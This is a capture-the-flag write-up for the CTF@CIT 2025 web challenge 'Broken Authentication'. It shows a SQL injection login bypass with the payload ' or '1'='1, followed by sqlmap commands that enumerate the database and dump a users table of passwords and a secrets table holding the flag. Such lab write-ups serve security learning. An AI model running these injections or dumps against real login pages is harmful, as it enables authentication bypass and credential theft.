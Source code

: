 ```yaml
---
name: Broken Authentication (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Broken Authentication (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Broken Authentication

## Description

> Say my username.

## Solution

### Part 1: SQL Injection (Auth Bypass)

Basic login page. When we submit the username as `''` it returns the following error.

{% code overflow="wrap" %}
```bash
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/index.php:23
Stack trace:
#0 /var/www/html/index.php(23): mysqli-&gt;query('SELECT * FROM u...')
#1 {main}
  thrown in <b>/var/www/html/index.php
```
{% endcode %}

Submit username and password as `' or '1'='1` and bypass the login panel.

### Part 2: SQLi (DB Enumeration)

The admin panel says `As you can probably tell, this page is currently under construction.`

Checked the source, cookies, technologies etc but doesn't appear to be anything of use. Perhaps the flag is in the username/password and we need to return to the SQLi.

{% code overflow="wrap" %}
```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch
```
{% endcode %}

It finds the SQLi, so we dump the creds:

{% code overflow="wrap" %}
```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T users --dump

+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```
{% endcode %}

Tried to login with each account in case the admin UI changed, but it did not.

Let's see if there's any other tables.

{% code overflow="wrap" %}
```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -D app --tables

+---------+
| secrets |
| users   |
+---------+
```
{% endcode %}

Nice! `secrets` sounds pretty promising 👀

{% code overflow="wrap" %}
```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T secrets --dump

+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+
```
{% endcode %}

Flag: `CIT{36b0efd6c2ec7132}`
